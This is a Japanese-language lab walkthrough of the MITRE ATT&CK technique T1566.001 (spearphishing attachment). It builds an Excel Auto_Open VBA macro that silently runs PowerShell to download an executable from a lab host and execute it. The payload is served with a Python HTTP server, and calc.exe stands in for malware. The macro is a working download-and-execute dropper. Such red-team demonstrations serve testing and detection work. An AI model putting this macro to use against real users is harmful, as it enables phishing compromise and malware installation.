 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment
-------------

MS Office VBA Macro によるリモートファイルの実行について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001-1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-2](images/T1566.001-2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001-3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001-4.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-5](images/T1566.001-5.png)
